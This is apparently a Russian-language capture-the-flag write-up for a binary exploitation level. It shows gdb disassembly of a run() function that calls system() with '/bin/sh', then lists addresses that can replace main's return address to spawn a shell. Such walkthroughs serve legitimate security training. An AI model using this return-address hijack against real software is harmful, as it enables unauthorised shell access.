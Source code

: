 Среди функций есть system().
Если перейти сразу на system(), то оболочка не откроется, так как для открытия оболочки этой функции необходим аргумент `/bin/sh`. Для вызова system() с нужным аргументом нахожу функцию, которая ее вызывает (в main не было такой). Нахожу в run:
```sh
gdb -batch -ex 'file ./level1' -ex 'disassemble run' | grep system
# || 
# \/
#  0x08048479 <+53>:    call   0x8048360 <system@plt>
```
Отлично. Это то, что нужно. \
`0x08048472 <+46>:    movl   $0x8048584,(%esp)` кладет `/bin/sh` в аргумент для system() \
`0x08048479 <+53>:    call   0x8048360 <system@plt>` вызов system() c `/bin/sh`

Посмотреть содержимое переменной: 
```
(gdb) x 0x8048584
0x8048584:       "/bin/sh"
```
Теперь нужно подать вместо адреса возврата в main адрес `0x08048472 <+46>:    movl   $0x8048584,(%esp)`, либо любой, после которого я попадаю на эту строку внутри run():
```sh
gdb
(gdb) disassemble run
# || 
# \/
# Dump of assembler code for function run:
#    0x08048444 <+0>:     push   %ebp
#    0x08048445 <+1>:     mov    %esp,%ebp
#    0x08048447 <+3>:     sub    $0x18,%esp
#    0x0804844a <+6>:     mov    0x80497c0,%eax
#    0x0804844f <+11>:    mov    %eax,%edx
#    0x08048451 <+13>:    mov    $0x8048570,%eax
#    0x08048456 <+18>:    mov    %edx,0xc(%esp)
#    0x0804845a <+22>:    movl   $0x13,0x8(%esp)
#    0x08048462 <+30>:    movl   $0x1,0x4(%esp)
#    0x0804846a <+38>:    mov    %eax,(%esp)
#    0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
#    0x08048472 <+46>:    movl   $0x8048584,(%esp)
#    0x08048479 <+53>:    call   0x8048360 <system@plt>
#    0x0804847e <+58>:    leave  
#    0x0804847f <+59>:    ret    
# End of assembler dump.
```
Таким образом подойдет любой из этих:
0x08048444 \
0x08048445 \
0x08048447 \
0x0804844a \
0x0804844f \
0x08048451 \
0x08048456 \
0x0804845a \
0x08048462 \
0x0804846a \
0x0804846d \
0x08048472 
